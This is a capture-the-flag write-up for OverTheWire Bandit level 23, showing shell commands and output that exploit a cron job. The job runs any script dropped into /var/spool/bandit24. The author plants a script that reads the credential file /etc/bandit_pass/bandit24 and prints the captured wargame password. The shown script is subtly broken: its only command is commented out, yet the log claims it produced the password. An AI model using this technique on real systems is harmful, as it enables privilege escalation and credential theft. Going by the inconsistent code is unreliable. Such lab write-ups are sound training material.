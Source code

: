 A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

```bash
$ ssh bandit23@bandit.labs.overthewire.org -p 2220

bandit23@bandit:~$ ls -la /etc/cron.d/
total 24
drwxr-xr-x  2 root root 4096 Oct 16 14:00 .
drwxr-xr-x 88 root root 4096 Oct 16 14:00 ..
-rw-r--r--  1 root root  120 Oct 16 14:00 cronjob_bandit22
-rw-r--r--  1 root root  122 Oct 16 14:00 cronjob_bandit23
-rw-r--r--  1 root root  120 Oct 16 14:00 cronjob_bandit24
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/alex1234
bandit23@bandit:~$ cd /tmp/alex1234
bandit23@bandit:/tmp/alex1234$ vi script.sh

#!/bin/sh
#cat /etc/bandit_pass/bandit24 >> /tmp/alex1234/bandit24pass

bandit23@bandit:/tmp/alex1234$ chmod 777 script.sh 
bandit23@bandit:/tmp/alex1234$ cp script.sh /var/spool/bandit24
bandit23@bandit:/tmp/alex1234$ chmod 777 /tmp/alex1234/
# Wait 1 minute
bandit23@bandit:/tmp/alex1234$ ls
bandit24pass  script.sh
bandit23@bandit:/tmp/alex1234$ cat bandit24pass 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

**Explanation:** The `cron` script execute and delete all scripts in **/var/spool/bandit24**. We just need to write our own script, copy it in **/var/spool/bandit24** and wait for the result. 
{: .notice--success}
